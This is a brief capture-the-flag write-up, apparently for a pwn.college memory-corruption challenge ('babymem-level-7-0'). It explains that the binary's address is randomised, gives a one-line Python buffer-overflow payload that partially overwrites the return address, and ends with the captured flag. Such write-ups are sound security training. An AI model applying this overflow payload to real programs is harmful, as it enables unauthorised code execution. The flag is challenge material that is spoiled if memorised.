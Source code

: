 In this challenge the binaries are placed randomly in the processors memory
Which means it wont be at a fixed address space every time.
payload 

    python -c 'import sys, time; sys.stdout.buffer.write(b"150"); time.sleep(1); sys.stdout.buffer.write(b"A"*121 + b"\x69\x18")' | ./babymem-level-7-0

The flag 

    pwn.college{U9AXdHs9xlfr1WcbGOGzRalITg5.0VMwMDL5kzM1czW}

